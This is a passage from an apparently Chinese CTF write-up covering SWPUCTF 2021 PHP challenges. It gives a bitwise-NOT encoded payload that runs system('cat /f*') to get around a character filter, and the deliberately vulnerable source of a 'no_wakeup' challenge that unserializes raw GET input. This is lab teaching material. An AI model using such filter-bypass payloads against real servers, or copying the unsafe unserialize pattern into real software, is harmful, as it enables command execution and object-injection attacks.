 ```php
{
    echo "蔡总说：注意审题！！！";
}
?> 
```

只能使用：

* **数字** ：0-9
* **一些符号** ：! # & ( ) ' , . / : ; _ { } | ~

使用取反构造语句，使用下面的脚本生成语句。

```
system(cat /f*);
(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%D5);
```

getflag。

#### [SWPUCTF 2021 新生赛]no_wakeup

```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```
